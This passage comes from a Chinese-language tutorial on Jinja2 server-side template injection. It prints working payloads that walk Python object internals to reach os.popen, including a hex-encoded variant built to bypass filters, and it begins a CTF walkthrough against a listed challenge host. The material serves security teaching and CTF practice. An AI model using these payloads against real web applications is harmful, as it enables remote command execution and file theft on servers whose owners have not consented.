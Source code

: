 **等同于：** 

```
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls').read()}}
```

#### 配合Hex编码绕过很多过滤

**和上面Unicode的环境一样，方法也一样，就是换了种编码**

**如下**

```
{{()|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")|attr("\x5f\x5f\x62\x61\x73\x65\x5f\x5f")|attr("\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f")()|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")(258)|attr("\x5f\x5f\x69\x6e\x69\x74\x5f\x5f")|attr("\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f")|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")("os")|attr("popen")("cat\x20\x66\x6c\x61\x67\x2e\x74\x78\x74")|attr("read")()}}
```

**等同于：** 

```
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls")|attr("read")()}}
```

**大家可以发现这几种方法中都用到了**`|attr()`，前面也说过，这是 JinJa 的一种过滤器，下面我们可以详细了解一下 JinJa 的过滤器，以便我们加深对绕过的理解，以及研究以后新的绕过。

* * *

刷题看看
----

### 一个实例 [题目 (xctf.org.cn)](https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5408&page=2)Web\_python\_template_injection

#### 1.判断有无模板注入

```
http://111.200.241.244:61745/{{1+1}}
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20221216150001-426df750-7d0f-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221216150001-426df750-7d0f-1.png)

#### 2.查看一下全局变量

```
url/{{config}}
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20221216150001-42ad021a-7d0f-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221216150001-42ad021a-7d0f-1.png)

补个知识

文件包含：是通过python的对象的继承来一步步实现文件读取和命令执行的的。  
思路：找到父类<type ‘object’>–>寻找子类–>找关于命令执行或者文件操作的模块。
